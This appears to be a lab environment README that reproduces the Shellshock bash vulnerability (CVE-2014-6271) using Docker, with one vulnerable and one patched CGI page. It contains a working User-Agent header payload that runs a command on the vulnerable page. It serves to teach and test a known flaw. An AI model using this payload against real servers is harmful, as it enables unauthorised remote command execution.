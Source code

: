 # Shellshock Shell Breaking Vulnerability (CVE-2014-6271)

Compile and run:

```
Docker-compose up -d
```

After the service is started, there are two pages `http://your-ip:8080/victim.cgi` and `http://your-ip:8080/safe.cgi`. Among them, safe.cgi is the latest version of bash generated page, and victim.cgi is the page generated by bash4.3.

Attach the payload to the User-Agent to access victim.cgi:

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

The command was successfully executed:

![](1.png)

The same packet access to safe.cgi is unaffected:

